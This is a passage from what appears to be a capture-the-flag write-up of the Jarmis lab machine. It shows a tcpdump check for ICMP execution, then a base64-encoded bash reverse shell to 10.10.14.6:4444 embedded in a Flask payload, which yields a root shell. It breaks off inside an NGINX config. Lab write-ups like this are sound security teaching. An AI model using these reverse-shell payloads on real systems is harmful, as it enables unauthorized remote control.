 

And finally I see `ping` at `tcpdump`:



    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:05:30.903265 IP 10.10.11.117 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
    12:05:30.903286 IP 10.10.14.6 > 10.10.11.117: ICMP echo reply, id 5, seq 1, length 64



#### Shell

To avoid worrying about special characters, I'll just encode a shell:



    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1' | base64 
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo=



Now I'll update the payload in Flask:



    cmd = "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo='|base64 -d|bash"



On sending, I get a connection back with a shell:



    oxdf@parrot$ nc -lnvp 4444
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:45574.
    bash: cannot set terminal process group (32938): Inappropriate ioctl for device
    bash: no job control in this shell
    root@Jarmis:/var/opt/microsoft/scx/tmp#



From there I can grab both `user.txt` and `root.txt`.

## Beyond Root

### Webserver Setup

#### NGINX Config

The webserver is NGINX. Looking at `/etc/nginx/sites-enabled/default`,
it's single server proxying various paths:



    server {
            listen 80 default_server;
            listen [::]:80 default_server;
